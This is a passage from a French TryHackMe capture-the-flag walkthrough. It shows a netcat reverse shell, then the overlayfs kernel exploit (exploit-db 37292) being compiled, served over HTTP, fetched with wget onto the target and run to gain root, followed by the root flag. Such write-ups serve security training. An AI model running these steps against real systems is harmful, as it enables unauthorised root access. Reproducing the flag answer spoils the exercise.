tim@kali:~/Bureau/tryhackme/write-up$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.172.157] 51979
bash: cannot set terminal process group (1057): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 
```

On obtient un shell.    

## Task 4 Privilege Escalation ##

**Enumerate the machine manually**

**Whats the kernel version?**

```bash
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

On a la verion du kernel avec uname. 

La réponse est 3.13.0-32-generic   

**You can download the exploit from here: https://www.exploit-db.com/exploits/37292**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit 37292
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                                                                        | linux/local/37292.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/linux/local/37292.c ./

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/gcc/cc/g' 37292.c 

tim@kali:~/Bureau/tryhackme/write-up$ cc 37292.c -o exploit
37292.c: In function ‘main’:
37292.c:106:12: warning: implicit declaration of function ‘unshare’ [-Wimplicit-function-declaration]
  106 |         if(unshare(CLONE_NEWUSER) != 0)
      |            ^~~~~~~
37292.c:111:17: warning: implicit declaration of function ‘clone’; did you mean ‘close’? [-Wimplicit-function-declaration]
  111 |                 clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
      |                 ^~~~~
      |                 close
37292.c:117:13: warning: implicit declaration of function ‘waitpid’ [-Wimplicit-function-declaration]
  117 |             waitpid(pid, &status, 0);
      |             ^~~~~~~
37292.c:127:5: warning: implicit declaration of function ‘wait’ [-Wimplicit-function-declaration]
  127 |     wait(NULL);

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...


```

On prend l'exploit.
On compile l'exploit.  
On lance un serveur http pour transferer l'exploit.   

```bash
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ cd /tmp
www-data@ubuntu:/tmp$ wget http://10.9.228.66:8000/exploit -nv
wget http://10.9.228.66:8000/exploit -nv
2021-08-18 09:59:08 URL:http://10.9.228.66:8000/exploit [17592/17592] -> "exploit" [1]

www-data@ubuntu:/tmp$ chmod +x exploit
chmod +x exploit

www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
```

On récupère l'exploit.   
On rend exécutable.    
Puis on l'exécute et on obitient un shell avec les droits root.   


**What is the root flag?**

```bash
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# ls -al /root/
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo

# cat /root/.flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

```

Dans le répertoire root on trouve un fichier .flag.txt.    
On le lit et on trouve le flag.   

La réponse est : 568628e0d993b1973adc718237da6e93   

